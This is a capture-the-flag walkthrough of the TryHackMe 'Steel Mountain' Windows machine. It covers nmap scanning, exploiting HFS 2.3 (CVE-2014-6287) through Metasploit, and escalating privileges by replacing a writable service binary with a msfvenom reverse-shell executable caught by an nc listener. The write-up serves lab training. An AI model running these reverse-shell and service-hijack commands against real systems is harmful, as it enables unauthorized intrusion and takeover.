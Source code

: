 Steel Mountain is a THM machine 

![image](https://github.com/user-attachments/assets/c9a4dba0-4117-4d65-9e7f-3f8dd916f518)

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

nmap -sC -sV 10.10.224.110 -oA initial  

* -sC: run default nmap scripts
* -sV: detect service version
* -O: detect OS [not allowed to run on this machine- I got an error]
* -oA: output all formats and store in file initial

We get back the following result showing that below ports are open:

* Port 80: running Microsoft IIS httpd 8.5 HTTP method risky :Trace
* Port 135: msrpc
* Port 139: netbios-ssn
* Port 445:  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
* Port 3389: ssl/ms-wbt-server?
* Port 8080 : open  http               HttpFileServer httpd 2.3 http-server-header: HFS 2.3





![image](https://github.com/user-attachments/assets/66f63413-c1bd-4ba1-9f8d-703c42515757)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

nmap -sC -sV -O -p- -oA full $IP


We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the -sU flag enabled to run a UDP scan.

nmap -sU -O -p- -oA udp $IP


**Enumeration**
I always start off with enumerating HTTP first. In this case both 80 and 8080 are open so we’ll start there.

Ports 80 & 8080

Visit the site on the browser.

![image](https://github.com/user-attachments/assets/12aec968-4a0e-4c18-8c4d-7302df33f566)


![image](https://github.com/user-attachments/assets/6de5a185-9e60-4c41-bc2a-eec9d4a12a2c)

View the source code to see if we can find any other information. We see that the photo on the port 80 is Employee of the month Bill Harper 

![image](https://github.com/user-attachments/assets/9b04f2a8-adab-4d60-bdee-0baaae09a824)

What is the CVE number to exploit this file server?

We know the name of the file version, and that it is running version 2.3. We can therefore use the searchsploit command (or look at exploitdb’s website). I entered the following command:

searchsploit HFS -w

This gave me the following results. Note I used the -w flag to get a link to exploit-db.

![image](https://github.com/user-attachments/assets/98505663-dd1b-4c86-a8b3-56c8941464a9)

Of you look carefully you can see that there are are at least two exploits for version 2.3.x. Let’s try the Remote Command Execution (1) at the following link:

https://www.exploit-db.com/exploits/34668?source=post_page-----90af67ec1af6--------------------------------

Use Metasploit to get an initial shell. What is the user flag?

Startup Metasploit by running msfconsole.

The great thing about Metasploit is that we can search on CVE number. Let’s do this by running:

search 2014–6287
![image](https://github.com/user-attachments/assets/13289ada-5d7e-4f73-a02d-614f25f0dd5b)

![image](https://github.com/user-attachments/assets/1fd2fdb3-c23a-4710-a8e3-a9b7360fdea3)

We can follow this by entering use 0. This select the module.

To see the different options we need to adjust we can run show options.

A lot of this is already set to defaults, so the only options we have to set are RHOSTS, which means the target host ip address, and RPORT. You can set it using set RHOSTS <ip>.

Now all we need to do is enter run or exploit.

We got access to a meterpreter shell:
![image](https://github.com/user-attachments/assets/ad190d50-b6cb-4ced-a24d-e751f2ef0f10)

![image](https://github.com/user-attachments/assets/69d78adf-85f1-4680-b4f2-f09b45d169cb)

Now we need to find the user flag.

We can use the following command to search for all txt files:

search -f *.txt

59 resulsts 
![image](https://github.com/user-attachments/assets/80efaab5-23a8-4251-ab09-b517dc7be423)

We are interested in this file 
![image](https://github.com/user-attachments/assets/15e66b61-c827-42da-bf2d-1b26118fb232)

Now all we need to do is read the file.

Remember too use forward slashes.

![image](https://github.com/user-attachments/assets/a1d99982-61a1-417e-816b-067d6b16d4fe)


**Privilege Escalation**

Now that you have an initial shell on this Windows machine as Bill (enter getuid in the meterpreter shell to see this), we can further enumerate the machine and escalate our privileges to root!

**Questions**
To enumerate this machine, we will use a PowerShell script called PowerUp, whose purpose is to evaluate a Windows machine and determine any abnormalities — “PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.” You can download the script here.

Now you can use the upload command in Metasploit to upload the script. To execute this using Meterpreter, I will type load powershell into Meterpreter. Then I will enter PowerShell by entering powershell_shell:

![image](https://github.com/user-attachments/assets/54f08ec1-58c4-4b47-9f21-e66635573c82)

After doing this you just have to run the PowerUp Powershell script by entering:

![image](https://github.com/user-attachments/assets/6b619afc-6d02-467b-89c3-c0fa9ee2e682)

This gives a long list of abnormalities:

![image](https://github.com/user-attachments/assets/4b9e40d4-2859-40b5-93f0-81f450b620ff)

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, and restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as a Windows executable.

 *msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe%* 

msfvenom -p windows/shell_reverse_tcp LHOST=10.17.38.50 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe


![image](https://github.com/user-attachments/assets/58a0d79a-3d4a-4623-b24c-e43e591b1ddb)
Now we generated a reverse shell with the name ASCService.exe.

We can now leave the Powershell shell, and use the same upload command as before:
![image](https://github.com/user-attachments/assets/cee7565b-04f9-4657-9d46-d6a9387990f7)

No we need to replace the legitimate one. Enter a regular cmd shell from your meterpreter shell by entering: shell.

Before copying, we need to stop the service by entering:
*sc stop AdvancedSystemCareService9*
![image](https://github.com/user-attachments/assets/c375ee3b-aa40-45c9-b048-5f4fd51f0bb5)


![image](https://github.com/user-attachments/assets/203402e6-5081-467d-baca-58d37840ffae)

![image](https://github.com/user-attachments/assets/a91cefa8-cedc-441e-af35-2c7ea84e3d82)



Then copy the file to the original location:
Now we need to start a listener!

*nc -lvnp 4443*

Then restart the program to get a shell as root.
![image](https://github.com/user-attachments/assets/43b6e119-ca74-4105-ba94-6d813157b494)


![image](https://github.com/user-attachments/assets/9ac96fe6-bec3-422d-9612-7ccefedb3931)
